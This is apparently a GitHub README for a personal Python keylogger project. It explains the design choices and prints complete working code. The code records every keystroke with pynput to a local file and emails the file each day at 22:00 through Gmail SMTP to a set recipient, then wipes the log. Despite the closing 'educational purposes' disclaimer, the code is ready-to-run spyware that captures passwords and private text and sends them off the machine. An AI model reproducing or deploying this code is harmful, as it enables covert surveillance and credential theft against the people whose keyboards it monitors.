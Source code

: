# Keylogger 

 ## Description

This Python script demonstrates the use of various programming concepts and libraries to achieve a specific functionality: a keystroke logger that captures all keyboard activity, logs it to a file, and then sends the contents of that file to a specified email address once a day. The script uses the pynput library to capture keystrokes, the schedule library to schedule tasks, and the smtplib library to deliver emails. This project is designed to be instructive, demonstrating how to programmatically monitor keyboard input, handle scheduled tasks, and send emails using a Python script.
<br />

 ## What I learned
During the development of this project, I improved my understanding of some essential areas of Python programming and libary use cases to include:

- **Keyboard Event Monitoring**: Using the pynput package to listen for and record keyboard events in real time.
- **Task Scheduling**: Using the schedule module to run certain functions at predefined times, allowing for automated tasks within a Python script.
- **Email Handling in Python**: Use smtplib and MIME standards to construct and send emails programmatically, including plaintext and multipart communications.
- **File I/O Operations**: Managing file operations for logging data and comprehending the significance of flushing buffers to ensure data integrity.
- **Environmental Variables**: The significance of using environmental variables to securely manage sensitive information such as email credentials in scripts.


 ## Languages and Utilities Used 

<img src="https://upload.wikimedia.org/wikipedia/commons/c/c3/Python-logo-notext.svg" align= bottom width= 25 alt="snek" /> The core programming language used for the entire project is Python V3.8. Python's extensive standard library and external packages make it ideal for capturing keystrokes, scheduling tasks, and sending emails.

### Python Libraries:

- `pynput`: For monitoring and logging keyboard events. <br />
- `schedule`: To schedule the email sending function to run at specified times. <br />
- `smtplib`: Used for sending emails through the Simple Mail Transfer Protocol (SMTP). <br />
- `email`: Specifically, MIMEText and MIMEMultipart, for creating email messages. <br />  
- `datetime`: For timestamping in the log file and email subject lines. <br />


<img src="https://upload.wikimedia.org/wikipedia/commons/2/2d/Visual_Studio_Code_1.18_icon.svg" align= bottom width= 25 alt="snek" /> Visual Studio Code: An integrated development environment (IDE) used for writing, testing, and debugging the script. Its features like syntax highlighting, code completion, and Git integration support efficient development workflows. <br />

 ## Environments Used

- **Windows 11** 

## Challenges and Solutions

During the development of this keystroke logger, several challenges were encountered. Here’s how each was addressed and resolved:

#### Efficient Data Logging
- **Problem**: Needed to ensure that the script logs keystrokes without consuming too many system resources or causing perceptible lag in user input.
- **Solution**: Optimized the logging mechanism by buffering keystrokes and writing them to the file in intervals instead of real-time logging for each keystroke. This reduced the resource consumption and minimized input lag.

#### Handling Special Keys
- **Problem**: Special keystrokes, such as Shift and Ctrl, were not being logged in a manner that was easily understandable in the log file.
- **Solution**: Implemented a mapping function to convert special key events into readable strings (e.g., "[Shift]", "[Ctrl]") before logging them. This made the log files more instructive and user-friendly.

#### Secure Email Transmission
- **Problem**: Needed a way to transmit email logs securely without hardcoding sensitive email credentials into the script.
- **Solution**: Utilized environment variables to store email credentials securely. Integrated `smtplib` with TLS encryption for email transmission to ensure that the log data is sent securely over the network.

#### Scheduling Precision
- **Problem**: The scheduled task to send the email log needed to execute reliably at the same time every day, without being affected by the computer's sleep state or potential script interruptions.
- **Solution**: Used the `schedule` library for its simplicity and reliability in scheduling tasks. To handle potential downtime or sleep states, implemented a check at script startup to determine if a scheduled task was missed during downtime and execute it immediately if so.



 ## Script Explanation:
 
- **Explanation**: This block imports the necessary Python libraries. `schedule` for task scheduling, `time` and `datetime` for handling time-related functions, `pynput.keyboard` for keyboard event monitoring, and several `smtplib` and `email.mime` modules for constructing and sending emails.
```python
# Import necessary libraries
import schedule
import time
from datetime import datetime
from pynput import keyboard
import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
``` 
- **Explanation**: `send_email` is a function that takes a subject and body text, constructs an email, and sends it using the SMTP protocol. It uses the `smtplib` library to connect to Gmail's SMTP server, log in, and send the email.
```python
# Function to send an email
def send_email(subject, body):
    sender_email = "your_email@gmail.com"  # Update with your email
    receiver_email = "email@email.com"  # Update with recipient's email
    password = "your_password"  # Update with your email password
    message = MIMEMultipart()
    message['From'] = sender_email
    message['To'] = receiver_email
    message['Subject'] = subject
    message.attach(MIMEText(body, 'plain'))
    server = smtplib.SMTP('smtp.gmail.com', 587)
    server.starttls()
    server.login(sender_email, password)
    text = message.as_string()
    server.sendmail(sender_email, receiver_email, text)
    server.quit()
```

- **Explanation**: This function opens the log file containing the captured keystrokes, reads its content, and sends this as an email using the previously defined `send_email` function. After sending the email, it clears the log file by opening it in write mode and immediately closing it.
```python
# Function to read the log file and send its contents via email
def read_and_email_log():
    with open("keyfile.txt", 'r') as logFile:
        captured_keys = logFile.read()
    timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S")
    send_email(f"Keystroke Capture for {timestamp}", captured_keys)
    open("keyfile.txt", 'w').close()
```

- **Explanation**: `keyPressed` is a callback function triggered by each key press. It attempts to write the pressed key's character to the log file. If the key pressed does not have a character representation (like Ctrl, Alt, etc.), it logs the key's name instead. The log is immediately flushed to ensure all data is written even if the script stops abruptly.
```python
# Callback function for each key press
def keyPressed(key):
    with open("keyfile.txt", 'a') as logKey:
        try:
            logKey.write(key.char)
        except AttributeError:
            logKey.write(f"[{key}]")
        finally:
            logKey.flush()
```

- **Explanation**: This section initializes the key logger by setting up a keyboard listener to monitor keystrokes and invoking the `keyPressed` function on each key press. It schedules the `read_and_email_log` function to run daily at 22:00, effectively emailing the day's logged keystrokes and then waits indefinitely, processing scheduled tasks as they become due.
```python
# Main execution block
if __name__ == "__main__":
    listener = keyboard.Listener(on_press=keyPressed)
    listener.start()
    schedule.every().day.at("22:00").do(read_and_email_log)
    print("Key logger started. Capturing keystrokes...")
    while True:
        schedule.run_pending()
        time.sleep(1)
```
## Ethical Use and Educational Purpose

This project has been developed for educational purposes only. It is intended to demonstrate practical applications of programming concepts in Python, including working with external libraries, handling file I/O, scheduling tasks, and sending emails programmatically. 

**Important Note**: The use of keystroke logging software can raise significant ethical and legal issues, especially concerning privacy and consent. This project is shared with the understanding that it will not be used to monitor or record keystrokes without the explicit, informed consent of all individuals involved. It is crucial to adhere to all applicable laws and ethical guidelines when considering the deployment or further development of software with capabilities like those demonstrated here.

The sharing of this project is aimed at fostering learning and the exchange of ideas within the programming and cybersecurity communities. Any use of this project or its code for purposes beyond educational learning or without strict adherence to ethical considerations is strongly discouraged.

